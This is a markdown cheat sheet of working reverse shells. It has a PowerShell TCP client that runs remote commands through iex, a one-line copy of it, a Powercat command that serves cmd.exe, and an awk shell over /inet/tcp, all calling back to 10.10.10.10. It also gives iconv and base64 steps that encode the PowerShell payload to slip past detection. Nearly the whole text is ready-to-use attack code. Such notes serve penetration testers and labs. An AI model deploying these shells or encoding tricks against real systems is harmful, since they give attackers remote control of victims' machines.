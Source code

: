 ## Powershell 
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 1337);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```

Alh4zr3d's obfuscate reverse shell is just this with the variables changed, save this to a .txt file alter variables where required
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

He then base64, little endians it: convert it to UTF-16LE, which the Windows Default encoding, encodes it to base64 then removes the newline .
```bash
iconv -f ASCII -t UTF-16LE $reverseshell.txt | base64 | tr -d "\n"
```

For a Linux Variant
```bash
# Modern Linux may set UTF-8 by default, older OS version do not
iconv -f ASCII -t UTF-8 bash-i.txt | base64 | tr -d "\n"
```

## Powercat
More Powercat related at [[Powercat-Cheatsheet]]
```powershell
powercat -c 10.10.10.10 -p 54321 -e cmd.exe
```

## Awk
```bash
awk 'BEGIN {s = "/inet/tcp/0/10.10.10.10/9001"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
